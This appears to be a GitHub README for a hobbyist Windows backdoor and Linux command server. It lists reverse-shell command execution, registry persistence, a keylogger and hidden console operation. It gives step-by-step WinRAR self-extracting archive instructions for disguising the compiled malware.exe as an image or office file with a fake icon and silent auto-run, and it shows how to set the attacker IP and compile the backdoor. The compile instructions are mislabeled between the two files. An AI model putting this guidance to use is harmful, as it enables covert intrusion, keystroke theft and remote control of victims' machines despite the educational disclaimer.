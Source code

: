 # GhostKey-Backdoor and Server for Ethical Hacking and Penetration Testing

## Overview

This repository contains a **backdoor program** and its corresponding **server** implementation, designed for ethical hacking purposes. These programs demonstrate how attackers establish connections, execute commands, and persist on a target system audit.

> **Disclaimer:** This project is strictly for educational purposes. Unauthorized use of this code is illegal. The author is not responsible for any misuse.

>**Compatibility:** The backdoor program is designed to work on **Windows 10** machines,while the server can run on a **Linux** system. The backdoor uses Windows-specific libraries,including **ws2_32** and **wininet**


### Development Plan 
1. Establish a connection with the server.
2. Implement a shell function to handle incoming commands.
3. Ensure automatic startup after a system reboot.
4. Enable the backdoor to spawn additional programs.
5. Add directory navigation capabilities.
6. Integrate a keylogger to log user inputs.
7. Run the backdoor silently in the background without showing a console window.
## Features

### Backdoor (`backdoor.c`)
- **Server Connection:** Establishes a persistent connection to the attacker's server.
- **Command Execution:** Receives and executes shell commands from the server.
- **Persistence Mechanism:** Modifies the registry to ensure automatic execution after system reboot.
- **Directory Navigation:** Allows changing directories on the target system.
- **Keylogger Integration:** Starts a keylogger to capture keystrokes.
- **Program Spawning:** Enables the spawning of additional programs.

### Server (`server.c`)
- **Connection Listener:** Listens for incoming connections from the backdoor.
- **Command Execution:** Sends shell commands to the backdoor and displays the responses.
- **Special Commands:**
  - `persist`: Activates the backdoor's persistence mechanism.
  - `keylog_start`: Starts the keylogger on the target machine.
  - `cd <directory>`: Changes the working directory on the target machine.
  - `q`: Terminates the connection with the target.

### Embedding the Backdoor in a File
The compiled **malware.exe** can be hidden within an image file or any other file type using **WinRAR**:

1. Place the backdoor.exe and an image file (e.g., image.jpg) in the same directory.
2. Compress both files together using WinRAR.
3. Right-click on the files and select "Add to archive...".
4. In the archive settings > General tab> choose **Create SFX archive** option.
5. now in **Advanced tab** click on **SFX options...**.
6. In **Setup tab**, Add the files(the malware.exe and the file you selected for embedding) in the **Run after extraction** box.
7. In **Modes tab**>**Silent Mode**>Select Hide all.
8. In **Text and Icon**, Browse the ico file (false logo).
9. In **Update tab**, under Updae mode section, select **Extract and update file** . Under overwrite mode, choose **Overwrite all files**.
10. Save the Changes.


## Installation and Setup

### Prerequisites
- **Development Environment:**  
  - GCC (for compilation)
  - Linux for the server and Windows for the backdoor
- **Networking Knowledge:** Basic understanding of socket programming.
- **Environment Setup:** Ensure you have an attacker machine (Linux) and a target machine (Windows-Windows 10 advisable).

### Compiling the Programs
- **Compile the backdoor:**
#### Backdoor
1. Update the following placeholders in `backdoor.c` and `server.c` with the attacker's IP and setup PORT:
  **for backdoor.c**
    ```c
   ServIP = "<attacker-IP>";
   ServPort = <PORT-No>;
  **for server.c**
  ```c
server_address.sin_addr.s_addr=inet_addr("<attacker-IP machine>");
		server_address.sin_port=htons(<PORT-No>);
```
2. Compile the backdoor on Windows 10 using the following command using:
   **for backdoor.c**
```c
   gcc server.c -o server
```
**for server.c**
```c
i686-w64-mingw32-gcc -o malware.exe backdoor.c -lwsock32 -lwininet
```
4.This command will create a Windows executable backdoor.exe that can run on a **Windows 10** system.
5. Transfer the **malware.exe** to the target **Windows 10** machine and run it.

### Disguising your malware
* You may choose any image or any file ,example excel,pdf,word etc.
* Download an ico file for logo of archieved .exe file. 

 ## About Me
This project is my first attempt at malware development, created purely for learning purposes. I developed this project with the help of online resources and tutorials, including YouTube videos, to gain a deeper understanding of how backdoors and servers function in the context of penetration testing.

As a beginner in malware development, this project reflects my initial exploration into this domain and showcases fundamental concepts like socket programming, persistence mechanisms, and keylogging.

